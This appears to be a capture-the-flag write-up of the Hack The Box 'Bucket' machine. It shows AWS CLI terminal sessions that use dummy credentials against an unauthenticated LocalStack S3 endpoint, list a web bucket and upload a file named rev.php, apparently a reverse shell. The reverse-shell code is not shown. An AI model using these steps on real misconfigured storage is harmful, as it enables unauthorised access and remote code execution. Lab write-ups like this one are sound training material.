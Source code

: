 ## s3.bucket.htb
### First LS
```Bash
┌─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $aws --endpoint-url http://s3.bucket.htb s3 ls
Unable to locate credentials. You can configure credentials by running "aws configure".
```

### Fake creds
These work cause of local stack is being used and doesn't have IAM configured (?)
```bash
┌─[✗]─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $aws configure
AWS Access Key ID [None]: hackme
AWS Secret Access Key [None]: pwned 
Default region name [None]: 
Default output format []: 
```

### LS
```Bash
┌─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $aws --endpoint-url http://s3.bucket.htb s3 ls
2021-04-24 13:19:05 adserver
┌─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $
┌─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $aws --endpoint-url http://s3.bucket.htb s3 ls adserver
                           PRE images/
2021-04-24 13:27:05       5344 index.html
```

### cp
```Bash
┌─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $aws --endpoint-url http://s3.bucket.htb s3 cp rev.php s3://adserver/
upload: ./rev.php to s3://adserver/rev.php      
```

### Proof
```Bash
┌─[user@parrot-virtual]─[~/htb/bucket]
└──╼ $aws --endpoint-url http://s3.bucket.htb s3 ls adserver
                           PRE images/
2021-04-24 13:49:03       5344 index.html
```